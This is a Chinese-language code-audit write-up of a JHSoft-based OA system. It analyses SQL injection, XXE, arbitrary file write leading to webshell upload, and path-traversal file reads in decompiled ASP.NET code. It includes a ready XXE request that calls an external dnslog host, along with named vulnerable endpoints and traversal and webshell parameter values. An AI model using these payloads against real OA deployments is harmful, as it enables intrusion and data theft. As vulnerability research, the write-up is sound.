# 记一次对某oa的代码审计-先知社区

> **来源**: https://xz.aliyun.com/news/19017  
> **文章ID**: 19017

---

# 鉴权分析：

鉴权主要是`ExtensionlessUrlHandler` 和`JHSoft.Log.HttpModule`

## `ExtensionlessUrlHandler`

ASP.NET 中的一个 HTTP 处理程序，主要用于处理无扩展名的 URL。

### 处理无扩展名 URL

允许网站使用友好的 URL，而不需要显示文件扩展名：

```
text
传统 URL: http://example.com/products.aspx?id=123
友好 URL: http://example.com/products/123
```

### URL 路由支持

配合 NET 路由系统，实现 RESTful 风格的 URL：

```
text
GET  /api/users/123     -> 获取用户信息
POST /api/users         -> 创建用户
PUT  /api/users/123     -> 更新用户
DELETE /api/users/123   -> 删除用户
```

### 配置方式

在 web.config 中配置

IIS 7.0+ 配置：

```
xml
<system.webServer>
  <handlers>
    <add name="ExtensionlessUrlHandler-Integrated-4.0" 
         path="*." 
         verb="*" 
         type="System.Web.Handlers.TransferRequestHandler" 
         preCondition="integratedMode,runtimeVersionv4.0" />
  </handlers>
</system.webServer>
```

经典模式配置：

```
xml
<system.webServer>
  <handlers>
    <add name="ExtensionlessUrlHandler-ISAPI-4.0_32bit" 
         path="*." 
         verb="GET,HEAD,POST,DEBUG,PUT,DELETE,PATCH,OPTIONS" 
         modules="IsapiModule" 
         scriptProcessor="%windir%\Microsoft.NET\Framework\v4.0.30319\aspnet_isapi.dll" 
         preCondition="classicMode,runtimeVersionv4.0,bitness32" 
         responseBufferLimit="0" />
  </handlers>
</system.webServer>
```

Web API 中的应用

```
csharp
// Global.asax.cs 或 Startup.cs
public class WebApiApplication : System.Web.HttpApplication
{
    protected void Application_Start()
    {
        // 配置路由
        RouteTable.Routes.MapHttpRoute(
            name: "DefaultApi",
            routeTemplate: "api/{controller}/{id}",
            defaults: new { id = RouteParameter.Optional }
        );
    }
}
```

### MVC 路由配置

```
csharp
public class RouteConfig
{
    public static void RegisterRoutes(RouteCollection routes)
    {
        routes.IgnoreRoute("{resource}.axd/{*pathInfo}");
        
        routes.MapRoute(
            name: "Default",
            url: "{controller}/{action}/{id}",
            defaults: new { controller = "Home", action = "Index", id = UrlParameter.Optional }
        );
    }
}
```

请求处理流程

```
text
用户请求 /api/users/123
    ↓
IIS 接收请求
    ↓
ExtensionlessUrlHandler 处理
    ↓
ASP.NET 路由引擎匹配
    ↓
调用相应的 Controller/Action
```

URL 重写机制

```
csharp
// 示例：将 /products/123 映射到 ProductController.Details(123)
[Route("products/{id:int}")]
public ActionResult Details(int id)
{
    var product = GetProduct(id);
    return View(product);
}
```

## `JHSoft.Log.HttpModule`

是一个第三方或自定义的 HTTP 模块，用于在 ASP.NET 应用程序中处理日志记录功能。

主要处理HTTP 请求日志记录和错误日志记录。

HTTP 请求日志记录

* 记录所有进入应用程序的 HTTP 请求
* 捕获请求 URL、方法、参数等信息
* 记录响应时间和状态码

​

错误日志记录

* 捕获应用程序中的未处理异常
* 记录错误堆栈信息
* 提供错误通知机制

# 代码架构分析：

1. WebForms

采用渐进式迁移策略，将关键业务页面逐步迁移至NET MVC 或Net Core Razor Pages

保留现有基础架构，通过 Web API 构建新功能，实现前后端分离

建立统一的页面基类，整合 JHSoft.Base.Page 与 System.Web.UI.Page 的共同功能

2. WebService

统一 WebService 接口风格，逐步将 ASMX 和 WCF 服务迁移至ASP.NET Web API

实现服务网关模式，统一接口入口，处理认证授权、日志记录等横切关注点

引入 API 版本控制机制，确保服务平滑升级

3. 多种框架

基于现有 Localization 类构建更灵活的本地化框架

引入文化特性检测中间件，自动匹配用户语言偏好

实现数据库与资源文件混合存储的本地化方案，支持动态更新

### 数据访问层优化

**ORM 框架引入**

* 在新功能中采用 Entity Framework 或 Dapper 替代现有 DBOperator/Conn 封装
* 逐步将 SQL 字符串拼接重构为参数化查询或 LINQ 表达式
* 保留存储过程调用能力，但规范存储过程命名与参数设计

**数据访问抽象**

* 引入仓储模式 (Repository Pattern)，隔离业务逻辑与数据访问
* 实现 Unit of Work 模式，优化事务管理
* 建立数据访问性能监控机制，识别慢查询

**SQL 注入**

* 全面排查并消除 SQL 注入风险点
* 实现 SQL 执行白名单机制，限制危险操作
* 引入数据库访问审计日志，记录关键操作

### 工具 / 组件优化

**上传漏洞**

* 构建统一的文件上传服务，整合 Upload/UploadFile 功能
* 实现完整的安全校验机制：文件类型验证、大小限制、病毒扫描
* 引入分布式文件存储支持，如对接 OSS 服务
* 统一文件路径管理策略，实现文件生命周期管理

**权限绕过**

* 重构 Role 类，实现基于 RBAC (角色基础访问控制) 的权限模型
* 将 Fn\_\* SQL 函数的权限计算逻辑迁移至应用层
* 实现权限缓存机制，减少数据库查询
* 引入细粒度权限控制，支持数据行级权限

**组件**

* 增强 Toolbar/Workflow 类的扩展性，支持动态流程配置
* 实现流程定义与业务逻辑分离，支持可视化流程设计
* 引入流程实例状态监控与预警机制
* 优化流程按钮权限控制，与权限系统无缝集成

# SQL注入

页面直接读取查询参数 IncentiveID 和 TVersion 并传入 BLL/DAL：



DAL 里拼接 SQL，未做参数化或类型校验（直接把 TPlanID、TVersion 拼进语句）：





其他处也存在相同的调用：

## 漏洞复现



# SQL注入第二处

**漏洞位置**：jhsoft.mobileapp/AndroidSevices/HomeService.asmx 中的 GetHomeInfo 方法，通过调用 GetQuickUserInfo 查询用户 ID 时触发​

**漏洞类型**：SQL 注入（时间盲注可利用）

**根本原因**：GetUserSex 函数在处理外部传入的 userId 参数时，未进行任何安全过滤或参数化处理，直接将其拼接至 SQL 查询字符串中，导致攻击者可构造恶意 userId 值篡改 SQL 语句结构



来到抽象类ExecProcReDataTable继续追踪



进入quickUserInfo判断条件

由于quickUserInfo数组并不存在PhotoURL参数，text为空，进入判断MapAndFindFilebyRelativeFilePath方法



判断为false，text设为空，释放类quickUserInfo



text为空进入条件string userSex = GetUserSex(userID);

此处就可以看到userId拼接进了SQL语句中进行处理，造成了SQL注入



## 漏洞复现：

​



# 文件读取



# SQL注入



## 漏洞复现

重放原始 UNION/WAITFOR 载荷应不再生效；非法 id 返回 400 或空结果。

添加单元测试覆盖 id 的边界与恶意输入。



# 后台文件写入

**漏洞位置**：JHSoft.Web.Portal/EditMain.aspx 页面

**核心风险**：外部输入未受严格验证，导致恶意用户可控制文件写入路径及内容，存在持久化文件写入风险，甚至可实现远程代码执行 (RCE)​

**具体漏洞点**：

1. **add 参数处理不当**  
   接收的 add 参数仅简单将 "|" 替换为 "\"，未进行路径规范化校验及权限边界检查，允许直接传入绝对路径或跨目录的相对路径，可指向系统任意可写位置。
2. **id 参数验证缺失**  
   id 参数直接拼接至 "...Portal\Default" 路径后作为文件路径，未实施白名单验证，且未限制文件后缀名。攻击者可构造如 "id=1.aspx" 的恶意值，直接创建或覆盖 ASPX 可执行脚本文件。

**恶意利用方式**：

* 通过构造 id 参数（如 "id=webshell.aspx"），可在应用目录下写入包含恶意代码的 ASPX 文件
* 利用 add 参数指定系统其他可写目录（如网站根目录、临时文件夹等），实现跨目录文件写入
* 保存机制采用 StreamWriter (FilePath, append: false) 模式，若目标文件已存在则先执行 File.Delete (FilePath) 再覆盖写入，可直接替换现有文件





## 漏洞复现：





# XXE漏洞

发现代码未对 XmlDocument 禁用 DTD/外部实体解析，LoadXml 会在允许的框架版本/配置下解析外部实体，导致：外带请求（SSRF/DNSLOG 命中）、本地文件泄露（file://）、实体扩展拒绝服务（Billion Laughs）。

后续直接把节点值拼接进 SQL。



变量初始化与读取 XML 数据

```
string text = string.Empty;
string text2 = string.Empty;
StreamReader streamReader = new StreamReader(base.Request.InputStream);
string xml = streamReader.ReadToEnd();
```

* 初始化两个字符串变量`text`和`text2`（命名不规范，影响可读性）
* 通过`StreamReader`从请求输入流中读取全部内容，保存为 XML 字符串
* 这里直接读取整个请求体作为 XML 数据，未做任何验证和过滤

XML 解析处理

```
XmlDocument xmlDocument = new XmlDocument();
xmlDocument.LoadXml(xml);
if (xmlDocument.DocumentElement != null)
{
    XmlNodeList childNodes = xmlDocument.DocumentElement.ChildNodes;
    for (int i = 0; i <= childNodes.Count - 1; i++)
    {
        text = text + childNodes.Item(i).Name + ",";
        text2 = text2 + "'" + childNodes.Item(i).InnerText + "',";
    }
}
```

* 使用`XmlDocument`加载并解析 XML 数据
* 遍历 XML 根节点的所有子节点，将节点名拼接至`text`（字段名），将节点文本内容拼接至`text2`（字段值）
* **风险点 1**：未禁用 XML 外部实体（XXE），可能导致 XXE 攻击，如读取服务器本地文件或发起内网请求
* **风险点 2**：直接使用节点文本内容，未做任何过滤处理

SQL 语句拼接

```
text += " AddrCode ";
text2 = string.Concat(text2, "'", Session["UserCode"], "'");
string strSql = "insert into AddressUser (" + text + ") values (" + text2 + ")";
```

* 在字段列表和值列表中分别添加`AddrCode`字段和当前用户编码（从 Session 获取）
* 直接拼接字段名和值，构建完整的 INSERT 语句
* **严重风险**：这里存在明显的 SQL 注入漏洞！因为直接将用户可控的 XML 节点名和节点值拼接进 SQL 语句，攻击者可通过构造特殊 XML 内容注入恶意 SQL 代码

执行 SQL 与返回结果

```
AddressBase addressBase = new AddressBase();
addressBase.ExecSql(strSql);
if (!addressBase.IsError)
{
    return string.Empty;
}
return addressBase.ErrorMessage;
```

* 创建`AddressBase`实例并执行拼接好的 SQL 语句
* 根据执行结果返回空字符串（成功）或错误信息（失败）
* 未对 SQL 执行结果做安全校验，也未记录关键操作日志

```
POST /c6/Jhsoft.Web.addressbook/AddressImportPub.aspx/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ncf9zj.dnslog.cn">
%remote;
]>
<root/>
```

## 漏洞复现





# 文件读取漏洞第一处

根据漏洞情报定位到JHSoft.Web.AddMenu.decompiled.cs这个接口。



主要代码如下



直接将用户可控的`path`参数传递给`DownLoad`方法，没有进行任何路径过滤或验证

```
public class DownLoadBgImage : System.Web.UI.Page
{
    protected void Page_Load(object sender, EventArgs e)
    {
        string text = base.Request["path"];
        string pathType = base.Request["pathType"];
        if (!string.IsNullOrEmpty(text))
        {
            try
            {
                DownLoad(text, pathType);
                return;
            }
            catch (Exception)
            {
                base.Response.Write("<script>window.close()</script>");
                return;
            }
        }
        base.Response.Write("<script>window.close()</script>");
        base.Response.End();
    }
```

直接对用户可控的`filePath`调用`Server.MapPath`，且没有任何路径净化处理

```
    protected void DownLoad(string filePath, string pathType)
    {
        if (pathType != "1")
        {
            filePath = base.Server.MapPath(filePath);
        }
```

使用`File.Exists`检查文件是否存在，然后通过`File.OpenRead`读取文件内容

```
        string s = "image" + filePath.Substring(filePath.LastIndexOf("."));
        if (File.Exists(filePath))
        {
            FileStream fileStream = File.OpenRead(filePath);
            byte[] array = new byte[(int)fileStream.Length];
            fileStream.Read(array, 0, array.Length);
            fileStream.Close();
```

将读取到的文件内容通过`BinaryWrite`写入响应流，攻击者可以直接进行下载。

```
            base.Response.Clear();
            base.Response.ClearHeaders();
            base.Response.Buffer = true;
            base.Response.AppendHeader("Content-Disposition", "attachment;  filename=" + HttpUtility.UrlEncode(Encoding.UTF8.GetBytes(s)));
            base.Response.BinaryWrite(array);
        }
        else
        {
            base.Response.Write("<script>window.close()</script>");
        }
        base.Response.End();
    }
}
```

## 漏洞复现：



# 文件读取第二处

定位到：JHSoft.Web.CustomQuery/UploadFileDownLoadnew.aspx



以 QueryString 第一项 fcform 触发分支，直接使用用户传入的 FilePath 拼接到 ../JHSoft.Web.Module/ 后进行 MapPath 或内部映射，未做白名单/根目录约束与穿越过滤，导致任意文件读取/路径穿越。

```
private void Downloadfcform()
{
    string empty = string.Empty;
    string empty2 = string.Empty;
    string empty3 = string.Empty;
    byte[] array = null;
    empty3 = base.Request["FilePath"];    // 用户可控
    empty = base.Request["FileName"];     // 用作下载名
    ...
    if (Upload.FileServerName != "")
    {
        empty3 = Upload.MapFilePath("../resource/" + empty3);
    }
    else
    {
        string text = empty3.ToLower();
        text = text.Replace("/resource/", "/");
        empty3 = ((text.Length >= empty3.Length)
            ? base.Server.MapPath("../JHSoft.Web.Module/" + empty3)
            : Upload.MapFilePath("../JHSoft.Web.Module/" + empty3));
    }
    if (Upload.FindFilebyAbsoluteFilePath(empty3, ref empty3))
    {
        Upload upload = new Upload();
        upload.Decrypt = false;
        array = upload.GetFile(empty3);   // 读取并回显
        ...
        base.Response.AppendHeader("Content-Disposition", "attachment;  filename=" + empty);
        base.Response.BinaryWrite(array);
        ...
    }
}
```

FileName 直接进入 Content-Disposition，缺少规范化（潜在响应头注入/换名欺骗）。

fcform 为首个键触发 Downloadfcform()；FilePath 走上面的映射分支，可通过 \.. 组合进行目录穿越并读取任意文件。



方法定义与变量初始化

```
private void Downloadfcform()
{
    string empty = string.Empty;
    string empty2 = string.Empty;
    string empty3 = string.Empty;
    byte[] array = null;
```

* 定义了一个私有方法`Downloadfcform`，返回值为 void
* 初始化了三个字符串变量`empty`、`empty2`、`empty3`（命名不规范，影响可读性）
* 声明了字节数组`array`用于存储文件的二进制数据

获取请求参数与响应缓存设置

```
empty3 = base.Request["FilePath"];
    empty = base.Request["FileName"];
    base.Response.Buffer = true;
    base.Response.ExpiresAbsolute = System.DateTime.Now.AddSeconds(-1.0);
    base.Response.Expires = 0;
    base.Response.CacheControl = "no-cache";
```

* 从请求中获取`FilePath`参数值，赋给`empty3`（实际是文件路径）
* 从请求中获取`FileName`参数值，赋给`empty`（实际是文件名）
* 设置响应缓冲为启用状态
* 设置响应立即过期（当前时间减 1 秒），确保客户端不会缓存该响应
* 设置缓存控制为 "no-cache"，强制客户端每次都从服务器获取最新内容

文件路径处理逻辑

```
if (Upload.FileServerName != "")
    {
        empty3 = Upload.MapFilePath("../resource/" + empty3);
    }
    else
    {
        string text = empty3.ToLower();
        text = text.Replace("/resource/", "/");
        empty3 = ((text.Length >= empty3.Length) ? base.Server.MapPath("../JHSoft.Web.Module/" + empty3) : Upload.MapFilePath("../JHSoft.Web.Module/" + empty3));
    }
```

* 根据`Upload.FileServerName`是否为空，处理两种不同的文件路径映射场景
* 当`Upload.FileServerName`不为空时：使用`Upload.MapFilePath`方法映射到`../resource/`目录下的路径
* 当`Upload.FileServerName`为空时：

* 将文件路径转为小写并替换`/resource/`为`/`
* 根据处理后的路径长度判断，使用不同的方法（`Server.MapPath`或`Upload.MapFilePath`）映射到`../JHSoft.Web.Module/`目录下

文件查找与下载处理

```
if (Upload.FindFilebyAbsoluteFilePath(empty3, ref empty3))
    {
        Upload upload = new Upload();
        upload.Decrypt = false;
        array = upload.GetFile(empty3);
```

* 调用`Upload.FindFilebyAbsoluteFilePath`方法查找文件，同时通过 ref 参数可能更新文件路径
* 如果文件存在，创建`Upload`实例并设置不解密（`Decrypt = false`）
* 调用`GetFile`方法读取文件内容到字节数组`array`中

构建下载请求

```
base.Response.Clear();
        base.Response.ClearHeaders();
        base.Response.Buffer = true;
        base.Response.ContentType = "application/octet-stream";
        base.Response.AppendHeader("Content-Length", array.Length.ToString());
        base.Response.AppendHeader("Content-Disposition", "attachment;  filename=" + empty);
        base.Response.BinaryWrite(array);
        base.Response.Flush();
        base.Response.End();
    }
}
```

## 漏洞复现：

1. 首先将路径中的`\\`替换为`/`，但传入的`/..../`因不含`\\`而保持原样；
2. 接着执行`../`替换为`/`的操作，然而`/..../`实际是`../`的变形形式（`....`可拆解为`..+..`），替换后路径被简化为`/../`；
3. 最后代码又将路径中的`/`替换回`\\`，最终形成`\\..\\`这一包含上级目录跳转的危险路径。



​
